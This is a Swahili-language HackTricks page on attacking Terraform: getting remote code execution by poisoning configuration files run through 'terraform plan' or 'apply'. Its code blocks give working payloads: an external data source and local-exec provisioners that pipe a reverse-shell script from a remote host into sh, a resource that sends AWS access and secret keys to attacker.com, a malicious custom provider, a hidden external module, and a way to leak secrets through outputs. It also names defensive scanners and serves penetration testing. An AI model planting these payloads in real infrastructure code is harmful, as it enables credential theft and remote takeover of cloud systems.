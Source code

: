 # Usalama wa Terraform

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **nifuata** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

[Kutoka kwa nyaraka: ](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform ni chombo cha **infrastructure as code** kinachokuwezesha kufafanua **rasilimali za wingu na za ndani** katika faili za usanidi zinazoweza kusomwa na binadamu ambazo unaweza kuhifadhi kwa toleo, kutumia tena, na kushiriki. Kisha unaweza kutumia mchakato thabiti kutoa na kusimamia miundombinu yako yote kwa njia yake ya maisha. Terraform inaweza kusimamia vipengele vya kiwango cha chini kama vile kompyuta, uhifadhi, na rasilimali za mtandao, pamoja na vipengele vya kiwango cha juu kama vile kuingia kwa DNS na huduma za SaaS.

### Terraform Inafanyaje Kazi?

Terraform inaunda na kusimamia rasilimali kwenye majukwaa ya wingu na huduma zingine kupitia interfaces zao za programu (APIs). Watoa huduma huwezesha Terraform kufanya kazi na karibu jukwaa au huduma yoyote yenye API inayopatikana.

HashiCorp na jamii ya Terraform tayari wameandika **zaidi ya watoa huduma 1700** kusimamia aina tofauti maelfu ya rasilimali na huduma, na idadi hii inaendelea kuongezeka. Unaweza kupata watoa huduma wote wanaopatikana hadharani kwenye [Usajili wa Terraform](https://registry.terraform.io/), ikiwa ni pamoja na Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog, na mengi zaidi.

Mchakato msingi wa Terraform unajumuisha hatua tatu:

* **Andika:** Unafafanua rasilimali, ambazo zinaweza kuwa kwenye watoa huduma na huduma nyingi. Kwa mfano, unaweza kuunda usanidi wa kupeleka programu kwenye mashine za vitu vya kubadilishana katika mtandao wa Virtual Private Cloud (VPC) na vikundi vya usalama na balansa ya mzigo.
* **Panga:** Terraform inaunda mpango wa utekelezaji unaelezea miundombinu itakayoundwa, kusasishwa, au kuharibiwa kulingana na miundombinu iliyopo na usanidi wako.
* **Tumia:** Kwa idhini, Terraform hutekeleza shughuli zilizopendekezwa kwa mpangilio sahihi, kuheshimu mitegemeo yoyote ya rasilimali. Kwa mfano, ikiwa unasasisha mali ya VPC na kubadilisha idadi ya mashine za vitu katika VPC hiyo, Terraform itaunda upya VPC kabla ya kupanua mashine za vitu.

## Maabara ya Terraform

Tuweke tu terraform kwenye kompyuta yako.

Hapa una [mwongozo](https://learn.hashicorp.com/tutorials/terraform/install-cli) na hapa una [njia bora ya kupakua terraform](https://www.terraform.io/downloads).

## RCE katika Terraform

Terraform **haina jukwaa linalofunua ukurasa wa wavuti au huduma ya mtandao** tunayoweza kuchunguza, kwa hivyo, njia pekee ya kudukua terraform ni **kuweza kuongeza/kurekebisha faili za usanidi wa terraform**.

Hata hivyo, terraform ni **sehemu nyeti sana** ya kudukua kwa sababu itakuwa na **upatikanaji wa haki za kipekee** kwa maeneo tofauti ili iweze kufanya kazi vizuri.

Njia kuu kwa mshambuliaji kuweza kudukua mfumo ambapo terraform inaendeshwa ni **kudukua hazina inayohifadhi mizizi ya usanidi wa terraform**, kwa sababu wakati fulani ita **tafsiriwa**.

Kwa kweli, kuna suluhisho huko nje ambazo **hutekeleza terraform plan/apply moja kwa moja baada ya PR** kuundwa, kama vile **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Ikiwa unaweza kudukua faili ya terraform kuna njia tofauti unaweza kufanya RCE wakati mtu anatekeleza `terraform plan` au `terraform apply`.

### Terraform plan

Terraform plan ni **amri inayotumiwa zaidi** katika terraform na waendelezaji/suluhisho zinazotumia terraform huita mara kwa mara, kwa hivyo **njia rahisi ya kupata RCE** ni kuhakikisha unachafua faili ya usanidi wa terraform ambayo itatekeleza amri za kiholela katika `terraform plan`.

#### Kutumia mtoa huduma wa nje

Terraform inatoa [`mtoa huduma wa nje`](https://registry.terraform.io/providers/hashicorp/external/latest/docs) ambao hutoa njia ya kuingiliana kati ya Terraform na programu za nje. Unaweza kutumia chanzo cha data cha `external` kutekeleza nambari ya kiholela wakati wa `plan`.

Kuweka kitu kama hicho katika faili ya usanidi wa terraform kutatekeleza rev shell wakati wa kutekeleza `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Kutumia mtoa huduma ya desturi

Mshambuliaji anaweza kutuma [mtoa huduma ya desturi](https://learn.hashicorp.com/tutorials/terraform/provider-setup) kwenye [Usajili wa Terraform](https://registry.terraform.io/) na kisha kuongeza kwenye nambari ya Terraform kwenye tawi la kipengele ([mfano kutoka hapa](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Provider hupakuliwa katika `init` na itaendesha nambari yenye nia mbaya wakati `plan` inatekelezwa

Unaweza kupata mfano katika [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Kutumia kumbukumbu ya nje

Chaguo zote zilizotajwa ni muhimu lakini sio sana kwa siri (ya pili ni siri zaidi lakini ngumu zaidi kuliko ya kwanza). Unaweza kufanya shambulizi hili hata kwa njia **ya siri zaidi**, kwa kufuata mapendekezo haya:

* Badala ya kuongeza rev shell moja kwa moja kwenye faili ya terraform, unaweza **kupakia rasilimali ya nje** inayohifadhi rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Unaweza kupata msimbo wa rev shell katika [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Katika rasilimali ya nje, tumia kipengele cha **ref** kuficha **msimbo wa rev shell wa terraform katika tawi** ndani ya repo, kitu kama: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Kutumia Terraform

Terraform apply itatekelezwa ili kutumia mabadiliko yote, unaweza pia kuitumia vibaya kupata RCE kwa kuingiza **faili ya Terraform yenye nia mbaya** na [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Unahitaji tu kuhakikisha kuwa mzigo kama huu unamalizia katika faili ya `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Fuata **mapendekezo kutoka kwa mbinu iliyopita** kufanya shambulizi hili kwa njia **ya kisiri zaidi kwa kutumia vyanzo vya nje**.

## Kupitisha Siri

Unaweza kuwa na **thamani za siri zilizotumiwa na terraform zilizomwagika** kwa kukimbia `terraform apply` kwa kuongeza kitu kwenye faili ya terraform kama ifuatavyo:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Zana za Ukaguzi

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec hutumia uchambuzi wa nambari yako ya terraform ili kugundua upangaji mbaya unaoweza kutokea.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan ni mtambulishaji wa nambari ya static kwa Miundombinu kama Nambari.

## Marejeo

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)


<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **nifuata** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
